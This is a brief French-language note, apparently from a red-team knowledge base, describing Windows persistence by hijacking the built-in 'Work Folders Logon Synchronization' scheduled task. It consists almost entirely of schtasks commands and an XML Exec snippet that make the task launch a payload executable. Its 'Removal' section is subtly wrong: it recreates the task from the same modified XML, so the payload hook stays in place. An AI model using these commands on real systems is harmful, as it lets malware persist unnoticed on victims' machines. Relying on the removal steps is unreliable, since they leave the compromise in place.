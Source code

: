 
> [!NOTE] UNKNOWN

Une autre technique consite a modifier les taches existantes, c'est tres similaire a XML  [[Scheduled Task]] 

Setup:

```c
schtasks /query /tn  "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /fo list /v

schtasks /query /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /xml > c:\pers\tsk.xml
```

Ajouter le contenu suivant dans le fichier `tsk.xml` juste apres `</ComHandler>`

```xml
<Exec>
  <Command>C:\pers\payload.exe</Command>
</Exec>
```

Puis executer

```http
schtasks /delete /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /f
```

```c
schtasks /create /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /xml c:\pers\tsk.xml

schtasks /query /tn  "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /fo list /v

schtasks /run /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization"
```

Removal:

```http
schtasks /delete /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /f

schtasks /create /tn "\Microsoft\Windows\Work Folders\Work Folders Logon Synchronization" /xml c:\pers\tsk.xml
```


